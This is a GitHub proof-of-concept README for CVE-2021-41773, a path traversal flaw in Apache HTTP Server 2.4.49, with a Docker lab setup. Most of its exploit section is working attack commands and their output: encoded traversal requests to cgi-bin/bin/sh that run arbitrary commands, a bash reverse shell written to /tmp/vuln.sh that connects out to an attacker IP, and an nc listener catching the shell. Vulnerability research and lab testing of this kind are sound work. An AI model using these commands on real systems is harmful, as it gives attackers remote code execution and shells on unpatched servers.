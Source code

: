 # CVE-2021-41773
## 🐛 Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49
A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives.

If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution.

This issue is known to be exploited in the wild.

This issue only affects Apache 2.4.49 and not earlier versions.

[source](https://httpd.apache.org/security/vulnerabilities_24.html#CVE-2021-41773)

## Path Traversal
#### Overview
A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control (such as in the case of locked or in-use files on the Microsoft Windows operating system).

This attack is also known as “dot-dot-slash”, “directory traversal”, “directory climbing” and “backtracking”.


## Proof Of Concept

### Set up the PoC environment

```
$ docker-compose build
$ docker-compose up
```

**Confirm it works**

```
$ curl http://localhost:1234
<html><body><h1>It works!</h1></body></html>
```

### Exploit

Victim : ``localhost:1234``  
Attacker : ``192.168.1.12``  

According to the documentation, this is a flaw that allows us to execute code on remote (RCE).  
We can exploit it by doing a curl with the cgi-bin folder.

```bash
$ curl 'http://<victim_ip>/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type:text/plain; echo; <command>'
````

- **1. RCE**  
   Let's see if we actually have access to command, say ``id`` :
   ````bash
   $ curl 'http://localhost:1234/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type:text/plain; echo; id'
   uid=1(daemon) gid=1(daemon) groups=1(daemon)
   ````
- **2. Reverse shell**  
   We will test a reverse shell by creating a bash file on the victim's server.  
   Let's take as an example the reverse shell in bash found on the [PayloadsAllTheThings](https://github.com/LudovicPatho/PayloadsAllTheThings/) repo.  

   *Here is an example :*  
   [``bash -i >& /dev/tcp/10.0.0.1/4242 0>&1``](https://github.com/LudovicPatho/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)   

   Let's create the file ``vuln.sh`` on the victim's machine in the ``/tmp/`` folder !  
   This file will contain our reverse shell that we can run remotely. It will connect to our local machine on port 44.  
   ````bash
   $  curl 'http://localhost:1234/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type:text/plain; echo; echo "#!/bin/bash\nbash -i >& /dev/tcp/192.168.1.12/44 0>&1" > /tmp/vuln.sh'
   ````

   You can check the contents of the file with the ``cat`` command
   ````bash
   $ curl 'http://localhost:1234/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type:text/plain; echo; cat /tmp/vuln.sh'
   #!/bin/bash
   bash -i >& /dev/tcp/192.168.1.12/44 0>&1
  ````
- **3. Listener with ncat**  
   Let's create the listener on the local machine.
   ````bash
   $ nc -lvnp 44
   ````
   All that remains is to execute the remote file.
   ````bash
   $ curl 'http://localhost:1234/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type:
   text/plain; echo; bash /tmp/vuln.sh'
   ````

   Response :
   ````
   Ncat: Version 7.91 ( https://nmap.org/ncat )
   Ncat: Listening on :::44
   Ncat: Listening on 0.0.0.0:44
   Ncat: Connection from 172.19.32.1.
   Ncat: Connection from 172.19.32.1:58963.
   ````

## References
- https://httpd.apache.org/security/vulnerabilities_24.html
- https://github.com/apache/httpd/commit/98246aa96079dad5f7b20521bbc0142a04f1c5e7

